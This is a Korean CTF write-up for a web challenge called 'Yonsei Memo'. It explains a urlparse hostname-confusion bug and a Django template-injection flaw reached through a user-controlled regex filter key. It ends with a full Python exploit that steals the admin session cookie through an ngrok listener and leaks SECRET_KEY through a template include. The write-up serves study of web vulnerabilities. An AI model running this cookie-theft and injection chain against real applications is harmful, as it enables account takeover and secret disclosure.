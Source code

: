 # Yonsei Memo

## Vulnerability
### urlparse
yonsei_memo/common.py
```python
def check_url(url):
    o = urlparse(url)
    if o.scheme != 'http':
        return False
    if o.hostname != HOSTNAME:
        return False
    return True
```
+ urlparse에는 url에 @가 포함되어 있을 때 파싱 결과 hostname과 실제 hostname가 불일치할 수 있는 취약점이 있다.
```python
>>> urlparse('http://a.com\@b.com').hostname
'b.com'
```
+ 이를 이용하면 report를 통해 어드민 리퀘스트를 탈취할 수 있다.
> 어드민 리퀘스트에는 세션 정보(쿠키)가 포함되어 있으므로 어드민으로 로그인이 가능하다.
### ssti
yonsei_memo/common.py
```python
def render_template(template, context):
    page = temp_index.split('body_here')[0]
    page += template
    page += temp_index.split('body_here')[1]
    return HttpResponse(Template(page).render(Context(context)))
```
+ response를 만들때 render engine을 바로 사용하지 않고 문자열을 합치듯 템플릿을 만든 뒤 렌더링한다. 따라서 잠재적인 ssti 취약점이 존재한다.
admin/views.py
```python
    if request.method == 'POST':
        key = list(request.POST.keys())[0]
        filters = {key:request.POST[key]}
        msg = 'Searched result for '+request.POST[key]
        
    else:
        filters = {}
        msg = ''
    user_list = get_user_list(filters)
    if len(user_list) == 0:
        msg = 'No result.'

    return render_template(msg+temp_admin_userlist, {'user_list': user_list})
```
templates/userlist.html
```html
    <form method="post">
        <input name="name" type="text"/>
    </form>
```
+ /admin/users 에서 **클라이언트에게 key value를 받아** filter를 구성해 db의 user 테이블을 검색한 결과를 보여준다.
+ `msg+temp_admin_userlist`를 렌더링하는데, 검색 결과가 존재할 경우 `msg = 'Searched result for '+request.POST[key]` 가 된다.
+ user name에는 특수기호가 들어갈 수 없으므로 ssti가 불가능할 것 같지만 사실 가능하다.
+ 검색 filter의 key가 name으로 정해져 있는데, 클라이언트는 post data를 조작해 key를 임의로 조작할 수 있다.
+ django의 doc을 읽어보면 (https://docs.djangoproject.com/en/3.1/ref/models/querysets/#regex) filter로 정규식이 들어갈 수 있다. 컬럼명뒤에 `__regex`를 붙히는 것으로 가능하다.
> 즉 검색의 key로 `name__regex`를, value로 아무 계정의 이름+`|{{7*7}}`을 줌으로써 ssti가 가능해진다.

## Exploit Scenario
1. nc + ngrok 로 로컬 포트 리슨
2. urlparse 취약점 이용해 `ngrok public url + \@211.217.69.153`를 report
3. 어드민 쿠키를 얻어 어드민으로 로그인
4. `POST /admin/users ... name__regex=admin|{% include "yonsei_memo/settings.py" %}`

## Exploit Code
```python
import requests
import random
import time
from pyngrok import ngrok
import socket

host = '211.217.69.153'
port = 32009

def open_port(port):
    s = socket.socket()
    s.bind(("", port))
    s.listen(1)
    ht = ngrok.connect(port, "http")
    return ht.public_url, s

def get_response(s):
    s_r, a = s.accept()
    r = s_r.recv(1024)
    s_r.close()
    return r
    
if __name__=="__main__":
    url = 'http://'+host+':'+str(port)
    name = str(round(random.random()*100000))
    
    reg_form = {"username":name, "password":"hanch", "register":"Register"}
    res = requests.post(url+'/memo/login', data=reg_form, headers={'User-Agent':'loginer'})
    token = res.history[0].cookies['token']
    cookies = {'token':token}

    purl, s = open_port(4000)
    requests.post(url+'/memo/report', data={'url':purl+'\\@211.217.69.153'}, headers={'User-Agent':'reporter'}, cookies=cookies)

    response = get_response(s)
    s.close()
    admin_token = response.split(b'token=')[1].split(b'\r\n')[0].decode()
    print('admin token : '+admin_token)

    cookies = {'token':admin_token}
    injection = {'name__regex':'admin|{% include "yonsei_memo/settings.py" %}'}
    res = requests.post(url+'/admin/users', data=injection, headers={'User-Agent':'attacker'}, cookies=cookies)
    flag = res.text.split('SECRET_KEY = "')[1].split('"')[0]

    print(flag)
```